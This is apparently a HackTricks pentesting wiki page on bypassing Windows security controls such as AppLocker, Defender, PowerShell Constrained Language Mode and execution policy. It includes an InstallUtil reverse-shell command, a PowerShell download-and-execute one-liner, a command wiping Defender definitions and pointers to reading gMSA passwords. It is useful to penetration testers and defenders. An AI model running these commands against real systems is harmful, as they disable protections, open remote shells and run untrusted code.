

# Windows Security Controls

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

<figure><figcaption></figcaption></figure>

Use [**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks) to easily build and **automate workflows** powered by the world's **most advanced** community tools.\
Get Access Today:



## AppLocker Policy

An application whitelist is a list of approved software applications or executables that are allowed to be present and run on a system. The goal is to protect the environment from harmful malware and unapproved software that does not align with the specific business needs of an organization.&#x20;

[AppLocker](https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/applocker/what-is-applocker) is Microsoft's **application whitelisting solution** and gives system administrators control over **which applications and files users can run**. It provides **granular control** over executables, scripts, Windows installer files, DLLs, packaged apps, and packed app installers. \
It is common for organizations to **block cmd.exe and PowerShell.exe** and write access to certain directories, **but this can all be bypassed**.

### Check

Check which files/extensions are blacklisted/whitelisted:

```powershell
Get-ApplockerPolicy -Effective -xml

Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections

$a = Get-ApplockerPolicy -effective
$a.rulecollections
```

AppLocker rules applied to a host can also be **read from the local registry** at **`HKLM\Software\Policies\Microsoft\Windows\SrpV2`**.

### Bypass

* Useful **Writable folders** to bypass AppLocker Policy: If AppLocker is allowing to execute anything inside `C:\Windows\System32` or `C:\Windows` there are **writable folders** you can use to **bypass this**.

```
C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
C:\Windows\System32\spool\drivers\color
C:\Windows\Tasks
C:\windows\tracing
```

* Commonly **trusted** [**"LOLBAS's"**](https://lolbas-project.github.io/) binaries can be also useful to bypass AppLocker.
* **Poorly written rules could also be bypassed**
  * For example, **`<FilePathCondition Path="%OSDRIVE%*\allowed*"/>`**, you can create a **folder called `allowed`** anywhere and it will be allowed.
  * Organizations also often focus on **blocking the `%System32%\WindowsPowerShell\v1.0\powershell.exe` executable**, but forget about the **other** [**PowerShell executable locations**](https://www.powershelladmin.com/wiki/PowerShell\_Executables\_File\_System\_Locations) such as `%SystemRoot%\SysWOW64\WindowsPowerShell\v1.0\powershell.exe` or `PowerShell_ISE.exe`.
* **DLL enforcement very rarely enabled** due to the additional load it can put on a system, and the amount of testing required to ensure nothing will break. So using **DLLs as backdoors will help bypassing AppLocker**.
* You can use [**ReflectivePick**](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick) or [**SharpPick**](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick) to **execute Powershell** code in any process and bypass AppLocker. For more info check: [https://hunter2.gitbook.io/darthsidious/defense-evasion/bypassing-applocker-and-powershell-contstrained-language-mode](https://hunter2.gitbook.io/darthsidious/defense-evasion/bypassing-applocker-and-powershell-contstrained-language-mode).

## Credentials Storage

### Security Accounts Manager (SAM)

Local credentials are present in this file, the passwords are hashed.

### Local Security Authority (LSA) - LSASS

The **credentials** (hashed) are **saved** in the **memory** of this subsystem for Single Sign-On reasons.\
**LSA** administrates the local **security policy** (password policy, users permissions...), **authentication**, **access tokens**...\
LSA will be the one that will **check** for provided credentials inside the **SAM** file (for a local login) and **talk** with the **domain controller** to authenticate a domain user.

The **credentials** are **saved** inside the **process LSASS**: Kerberos tickets, hashes NT and LM, easily decrypted passwords.

### LSA secrets

LSA could save in disk some credentials:

* Password of the computer account of the Active Directory (unreachable domain controller).
* Passwords of the accounts of Windows services
* Passwords for scheduled tasks
* More (password of IIS applications...)

### NTDS.dit

It is the database of the Active Directory. It is only present in Domain Controllers.

## Defender

[**Microsoft Defender**](https://en.wikipedia.org/wiki/Microsoft\_Defender) **** is an Antivirus that is available in Windows 10 and Windows 11, and in versions of Windows Server. It **blocks** common pentesting tools such as **`WinPEAS`**. However, there are ways to **bypass these protections**.&#x20;

### Check

To check the **status** of **Defender** you can execute the PS cmdlet **`Get-MpComputerStatus`** (check the value of **`RealTimeProtectionEnabled`** to know if it's active):

<pre class="language-powershell"><code class="lang-powershell">PS C:\> Get-MpComputerStatus

[...]
AntispywareEnabled              : True
AntispywareSignatureAge         : 1
AntispywareSignatureLastUpdated : 12/6/2021 10:14:23 AM
AntispywareSignatureVersion     : 1.323.392.0
AntivirusEnabled                : True
[...]
NISEnabled                      : False
NISEngineVersion                : 0.0.0.0
[...]
<strong>RealTimeProtectionEnabled       : True
</strong>RealTimeScanDirection           : 0
PSComputerName                  :</code></pre>

To enumerate it you could also run:

```bash
WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List
wmic /namespace:\\root\securitycenter2 path antivirusproduct
sc query windefend

#Delete all rules of Defender (useful for machines without internet access)
"C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```

## EFS (Encrypted File System)

EFS works by encrypting a file with a bulk **symmetric key**, also known as the File Encryption Key, or **FEK**. The FEK is then **encrypted** with a **public key** that is associated with the user who encrypted the file, and this encrypted FEK is stored in the $EFS **alternative data stream** of the encrypted file. To decrypt the file, the EFS component driver uses the **private key** that matches the EFS digital certificate (used to encrypt the file) to decrypt the symmetric key that is stored in the $EFS stream. From [here](https://en.wikipedia.org/wiki/Encrypting\_File\_System).

Examples of files being decrypted without the user asking for it:

* Files and folders are decrypted before being copied to a volume formatted with another file system, like [FAT32](https://en.wikipedia.org/wiki/File\_Allocation\_Table).
* Encrypted files are copied over the network using the SMB/CIFS protocol, the files are decrypted before they are sent over the network.

The encrypted files using this method can be **tansparently access by the owner user** (the one who has encrypted them), so if you can **become that user** you can decrypt the files (changing the password of the user and logins as him won't work).

### Check EFS info

Check if a **user** has **used** this **service** checking if this path exists:`C:\users\<username>\appdata\roaming\Microsoft\Protect`

Check **who** has **access** to the file using cipher /c \<file>\
You can also use `cipher /e` and `cipher /d` inside a folder to **encrypt** and **decrypt** all the files

### Decrypting EFS files

#### Being Authority System

This way requires the **victim user** to be **running** a **process** inside the host. If that is the case, using a `meterpreter` sessions you can impersonate the token of the process of the user (`impersonate_token` from `incognito`). Or you could just `migrate` to process of the user.

#### Knowing the users password



## Group Managed Service Accounts (gMSA)

In most of the infrastructures, service accounts are typical user accounts with “**Password never expire**” option. Maintaining these accounts could be a real mess and that's why Microsoft introduced **Managed Service Accounts:**

* No more password management. It uses a complex, random, 240-character password and changes that automatically when it reaches the domain or computer password expire date.
  * It is uses Microsoft Key Distribution Service (KDC) to create and manage the passwords for the gMSA.
* It cannot be lock out or use for interactive login
* Supports to share across multiple hosts
* Can use to run schedule tasks (Managed service accounts do not support to run schedule tasks)
* Simplified SPN Management – System will automatically change the SPN value if **sAMaccount** details of the computer change or DNS name property change.

gMSA accounts have their passwords stored in a LDAP property called _**msDS-ManagedPassword**_ which **automatically** get **resets** by the DC’s every 30 days, are **retrievable** by **authorized administrators** and by the **servers** who they are installed on. _**msDS-ManagedPassword**_ is an encrypted data blob called [MSDS-MANAGEDPASSWORD\_BLOB](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-adts/a9019740-3d73-46ef-a9ae-3ea8eb86ac2e) and it’s only retrievable when the connection is secured, **LDAPS** or when the authentication type is ‘Sealing & Secure’ for an example.



So, if gMSA is being used, find if it has **special privileges** and also check if you have **permissions** to **read** the password of the services.

You can read this password with [**GMSAPasswordReader**](https://github.com/rvazarkar/GMSAPasswordReader)**:**

```
/GMSAPasswordReader --AccountName jkohler
```

Also, check this [web page](https://cube0x0.github.io/Relaying-for-gMSA/) about how to perform a **NTLM relay attack** to **read** the **password** of **gMSA**.

## LAPS

****[**Local Administrator Password Solution (LAPS)**](https://www.microsoft.com/en-us/download/details.aspx?id=46899) allows you to **manage the local Administrator password** (which is **randomised**, unique, and **changed regularly**) on domain-joined computers. These passwords are centrally stored in Active Directory and restricted to authorised users using ACLs. If your user is given enough permissions you might be able to read the passwords of the local admins.


[laps.md](active-directory-methodology/laps.md)


## PS Constrained Language Mode

PowerShell **** [**Constrained Language Mode**](https://devblogs.microsoft.com/powershell/powershell-constrained-language-mode/) **locks down many of the features** needed to use PowerShell effectively, such as blocking COM objects, only allowing approved .NET types, XAML-based workflows, PowerShell classes, and more.

### **Check**

```powershell
$ExecutionContext.SessionState.LanguageMode
#Values could be: FullLanguage or ConstrainedLanguage
```

### Bypass

```powershell
#Easy bypass
Powershell -version 2
```

In current Windows that Bypass won't work but you can use[ **PSByPassCLM**](https://github.com/padovah4ck/PSByPassCLM). \
**To compile it you may need** **to** _**Add a Reference**_ -> _Browse_ ->_Browse_ -> add `C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0\31bf3856ad364e35\System.Management.Automation.dll` and **change the project to .Net4.5**.

#### Direct bypass:

```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U c:\temp\psby.exe
```

#### Reverse shell:

```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.13.206 /rport=443 /U c:\temp\psby.exe
```

You can use [**ReflectivePick**](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick) or [**SharpPick**](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick) to **execute Powershell** code in any process and bypass the constrained mode. For more info check: [https://hunter2.gitbook.io/darthsidious/defense-evasion/bypassing-applocker-and-powershell-contstrained-language-mode](https://hunter2.gitbook.io/darthsidious/defense-evasion/bypassing-applocker-and-powershell-contstrained-language-mode).

## PS Execution Policy

By default it is set to **restricted.** Main ways to bypass this policy:

```powershell
1º Just copy and paste inside the interactive PS console
2º Read en Exec
Get-Content .runme.ps1 | PowerShell.exe -noprofile -
3º Read and Exec
Get-Content .runme.ps1 | Invoke-Expression
4º Use other execution policy
PowerShell.exe -ExecutionPolicy Bypass -File .runme.ps1
5º Change users execution policy
Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
6º Change execution policy for this session
Set-ExecutionPolicy Bypass -Scope Process
7º Download and execute:
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://bit.ly/1kEgbuH')"
8º Use command switch
Powershell -command "Write-Host 'My voice is my passport, verify me.'"
9º Use EncodeCommand
$command = "Write-Host 'My voice is my passport, verify me.'" $bytes = [System.Text.Encoding]::Unicode.GetBytes($command) $encodedCommand = [Convert]::ToBase64String($bytes) powershell.exe -EncodedCommand $encodedCommand
```

More can be found [here](https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/)

## Security Support Provider Interface (SSPI)

Is the API that can be use to authenticate users.

The SSPI will be in charge of finding the adequate protocol for two machines that want to communicate. The preferred method for this is Kerberos. Then the SSPI will negotiate which authentication protocol will be used, these authentication protocols are called Security Support Provider (SSP), are located inside each Windows machine in the form of a DLL and both machines must support the same to be able to communicate.

### Main SSPs

* **Kerberos**: The preferred one
  * %windir%\Windows\System32\kerberos.dll
* **NTLMv1** and **NTLMv2**: Compatibility reasons
  * %windir%\Windows\System32\msv1\_0.dll
* **Digest**: Web servers and LDAP, password in form of a MD5 hash
  * %windir%\Windows\System32\Wdigest.dll
* **Schannel**: SSL and TLS
  * %windir%\Windows\System32\Schannel.dll
* **Negotiate**: It is used to negotiate the protocol to use (Kerberos or NTLM being Kerberos the default one)
  * %windir%\Windows\System32\lsasrv.dll

#### The negotiation could offer several methods or only one.

## UAC - User Account Control

[User Account Control (UAC)](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/how-user-account-control-works) is a feature that enables a **consent prompt for elevated activities**.&#x20;


[uac-user-account-control.md](windows-security-controls/uac-user-account-control.md)



<figure><figcaption></figcaption></figure>

\
Use [**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks) to easily build and **automate workflows** powered by the world's **most advanced** community tools.\
Get Access Today:




<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
